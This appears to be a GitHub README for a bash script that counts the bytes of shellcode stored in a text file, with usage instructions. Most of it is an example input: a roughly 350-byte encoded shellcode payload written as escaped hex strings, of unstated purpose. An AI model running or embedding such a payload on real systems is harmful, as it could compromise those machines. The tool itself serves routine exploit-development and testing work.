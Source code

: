 # Shellcode-Byte-Counter
A bash script that accepts a txt file with shellcode and returns the number of bytes of the shellcode

# How to Use
e.g. save your shellcode in a file as follows:


"\xbe\x93\xd6\x35\xa1\xda\xc6\xd9\x74\x24\xf4\x5a\x33\xc9\xb1"
"\x52\x31\x72\x12\x03\x72\x12\x83\x51\xd2\xd7\x54\xa9\x33\x95"
"\x97\x51\xc4\xfa\x1e\xb4\xf5\x3a\x44\xbd\xa6\x8a\x0e\x93\x4a"
"\x60\x42\x07\xd8\x04\x4b\x28\x69\xa2\xad\x07\x6a\x9f\x8e\x06"
"\xe8\xe2\xc2\xe8\xd1\x2c\x17\xe9\x16\x50\xda\xbb\xcf\x1e\x49"
"\x2b\x7b\x6a\x52\xc0\x37\x7a\xd2\x35\x8f\x7d\xf3\xe8\x9b\x27"
"\xd3\x0b\x4f\x5c\x5a\x13\x8c\x59\x14\xa8\x66\x15\xa7\x78\xb7"
"\xd6\x04\x45\x77\x25\x54\x82\xb0\xd6\x23\xfa\xc2\x6b\x34\x39"
"\xb8\xb7\xb1\xd9\x1a\x33\x61\x05\x9a\x90\xf4\xce\x90\x5d\x72"
"\x88\xb4\x60\x57\xa3\xc1\xe9\x56\x63\x40\xa9\x7c\xa7\x08\x69"
"\x1c\xfe\xf4\xdc\x21\xe0\x56\x80\x87\x6b\x7a\xd5\xb5\x36\x13"
"\x1a\xf4\xc8\xe3\x34\x8f\xbb\xd1\x9b\x3b\x53\x5a\x53\xe2\xa4"
"\x9d\x4e\x52\x3a\x60\x71\xa3\x13\xa7\x25\xf3\x0b\x0e\x46\x98"
"\xcb\xaf\x93\x0f\x9b\x1f\x4c\xf0\x4b\xe0\x3c\x98\x81\xef\x63"
"\xb8\xaa\x25\x0c\x53\x51\xae\x39\xaf\x59\x62\x56\xad\x59\x7b"
"\x1d\x38\xbf\x11\x71\x6d\x68\x8e\xe8\x34\xe2\x2f\xf4\xe2\x8f"
"\x70\x7e\x01\x70\x3e\x77\x6c\x62\xd7\x77\x3b\xd8\x7e\x87\x91"
"\x74\x1c\x1a\x7e\x84\x6b\x07\x29\xd3\x3c\xf9\x20\xb1\xd0\xa0"
"\x9a\xa7\x28\x34\xe4\x63\xf7\x85\xeb\x6a\x7a\xb1\xcf\x7c\x42"
"\x3a\x54\x28\x1a\x6d\x02\x86\xdc\xc7\xe4\x70\xb7\xb4\xae\x14"
"\x4e\xf7\x70\x62\x4f\xd2\x06\x8a\xfe\x8b\x5e\xb5\xcf\x5b\x57"
"\xce\x2d\xfc\x98\x05\xf6\x1c\x7b\x8f\x03\xb5\x22\x5a\xae\xd8"
"\xd4\xb1\xed\xe4\x56\x33\x8e\x12\x46\x36\x8b\x5f\xc0\xab\xe1"

"\xf0\xa5\xcb\x56\xf0\xef"

Run the script against the shellcode text file:
./shellcode_byte_counter.sh shellcode.txt
